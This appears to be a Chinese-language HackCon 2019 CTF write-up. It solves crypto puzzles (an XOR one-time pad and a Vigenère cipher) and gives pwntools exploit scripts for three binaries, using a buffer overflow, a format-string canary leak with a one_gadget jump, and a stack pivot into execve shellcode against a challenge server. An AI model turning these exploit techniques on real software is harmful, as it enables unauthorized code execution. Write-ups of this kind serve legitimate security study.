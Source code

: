 ```yaml
---
layout: post
title:  "HackCon 2019-Writeup"
date:   2019-8-23
desc: ""
keywords: ""
categories: [Ctf]
tags: [CTF]
icon: icon-html
---
```


#  HackCon 2019-Writeup

* ### Small icon much wow

  binwalk看一下然后dd分离得到二维码

* ### OTP

  两个密文异或之后得到两个明文异或的结果，根据明文里有"meme"分析

  ```
  c1 = '054617121418010c0b34'
  c2 = '3e1f00140a0807510a0e'
  
  c = '054617121418010c0b343e1f00140a0807510a0e'
  
  
  xor_res = '3b5917061e10065d013a'.decode('hex')
  
  meme = '6d656d65'.decode('hex')
  
  for i in range(7):
  	fuck = ''
  	for j in range(len(xor_res[i:i+4])):
  		fuck += hex(ord(xor_res[i:i+4][j])^ord(meme[j]))[2:].zfill(0)
  	print(fuck.decode('hex'))
  
  
  def xor(a,b):
      assert len(a)==len(b)
      c=""
      for i in range(len(a)):
          c+=chr(ord(a[i])^ord(b[i]))
      return c
  p1 = 'd4rk{meme_'
  print(xor(c1.decode('hex'),p1))
  key = 'areyoudank'
  
  print(xor(key,c1.decode('hex')))
  
  print(xor(key,c2.decode('hex')))
  #d4rk{meme__meme}c0de
  ```

* Noki

  ```
   g4iu{ocs_oaeiiamqqi_qk_moam!}e0gi
  ```

  维吉尼亚密码，密钥长度与明文长度相同

  根据d4rk看一波发现密钥和明文相同，然后就是他填字游戏了

  

* ### baby b0f

  改栈上的参数

  ```
  from pwn import *
  r = remote('68.183.158.95',8989)
  payload = 'a'*(0xe-4)+p64(0xDEADBEEF)
  r.sendline(payload)
  r.interactive()
  ```

* ### Not So Easy B0f

  格式化字符串泄露canary和main地址

  main地址不变，由于长度限制，再跑一次泄露libcstartmain+231，计算libc基址

  然后跳one_gadget

  ```python
  from pwn import *
  r = remote('68.183.158.95',8991)
  #r = process('./q3')
  elf = ELF('./q3')
  libc = ELF('./libc.so.6')
  
  #%17$llx 400796
  payload = '%11$llx%13$llx'
  r.sendline(payload)
  r.recvuntil('Hello\n')
  fuck = r.recvline().strip()
  print(fuck)
  canary = fuck[0:16]
  lsm = fuck[16:]
  main = '400796'
  log.success(canary)
  log.success(main)
  canary = int(canary,16)
  main = int(main,16)
  lsm = int(lsm,16)-231
  start = main-0x77a
  log.success('canary:'+hex(canary))
  log.success('start:'+hex(start))
  
  log.success('libc_start_main:'+hex(lsm))
  
  puts_plt = start+0x620
  puts_got = start + elf.got['puts']
  puts_libc = libc.symbols['puts']
  
  lsm_libc = libc.symbols['__libc_start_main']
  libc_base = lsm - lsm_libc
  p_rdi = start + 0x893
  one = libc_base + 0x45216
  payload = 'a'*(0x20-0x8)+p64(canary)+'fuckfuck'+p64(one)
  #payload += p64(p_rdi)+p64(puts_got)+p64(puts_plt)
  #payload += p64(main)
  r.sendline(payload)
  #r.recvuntil('Enter sentence :')
  #log.info(hex(u64(r.recvuntil('\n',drop=True).ljust(8,'\x00'))))
  r.interactive()
  ```

* ### 2 small 2 Pwn

  覆盖rbp，栈迁移，然后往data段写shellcode再跳过去

  ```python
  from pwn import *
  r = remote('68.183.158.95',8992)
  context(os='linux', arch='amd64')
  main = 0x4000c7
  payload = 'a'*0x10+p64(0x6000ec+0x10) + p64(main)
  r.sendline(payload)
  sh = asm("""
  mov eax, 59
  mov rdi, 0x60010c
  xor rsi, rsi
  xor rdx,rdx
  syscall
  """)
  payload = sh.ljust(0x18,'\x00')+p64(0x6000EC)+"\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x00"
  r.sendline(payload)
  
  r.interactive()
  
  
  ```

  

